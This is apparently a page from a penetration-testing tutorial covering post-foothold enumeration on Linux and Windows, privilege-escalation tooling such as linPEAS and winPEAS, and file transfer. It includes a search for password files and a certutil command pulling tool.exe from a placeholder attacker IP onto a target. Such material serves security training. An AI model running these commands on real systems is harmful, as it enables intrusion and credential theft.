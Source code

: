 
## 1) Local enumeration — what to run first (practical)

### Quick checklist (run immediately after foothold)

```bash
# Linux
whoami
id
hostname
uname -a
cat /etc/*release
ip a; ip route; ss -tuln
ps aux --width 200
sudo -l
ls -la /home
find / -type f -name "*pass*" 2>/dev/null

# Windows (cmd/Powershell)
whoami
systeminfo
hostname
ipconfig /all
netstat -ano
tasklist /v
net user
wmic product get name,version
```

### Use automated checks to surface obvious privesc paths

* Linux: `linpeas.sh` (download and run in lab)
* Windows: `winPEAS.bat`, `PowerUp` (PowerShell module), `Seatbelt`

> Save outputs to files for evidence and easier analysis.

---

## 2) Transferring files (practical)

### Host a file quickly (on attacker)

```bash
# Python 3
python3 -m http.server 8000
# Python 2
python -m SimpleHTTPServer 8000
```

### Pull to Windows (target)

```powershell
# using certutil (no browser needed)
certutil -urlcache -f http://<attacker-ip>:8000/tool.exe tool.exe
```
